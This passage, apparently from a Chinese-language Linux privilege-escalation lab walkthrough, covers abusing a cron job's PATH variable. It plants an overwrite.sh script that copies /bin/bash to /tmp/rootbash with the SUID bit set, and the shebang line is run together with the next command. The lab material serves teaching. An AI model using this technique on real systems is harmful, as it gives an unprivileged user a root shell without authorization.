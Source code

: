 **![](img/ba40fa04009957ca1331b07c75eba875.png)****![](img/dd88424c947fc7af78a5062cc0bb4c62.png)**

# **任务 9: Cron 作业路径环境变量**

**查看系统范围的 crontab 的内容:**

```
cat /etc/crontab
```

**注意，PATH 变量以/home/user 开始，这是我们用户的主目录。**

**在您的主目录中创建一个名为 overwrite.sh 的文件，包含以下内容:**

```
#!/bin/bashcp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

**确保该文件是可执行的:**

```
chmod +x /home/user/overwrite.sh
```
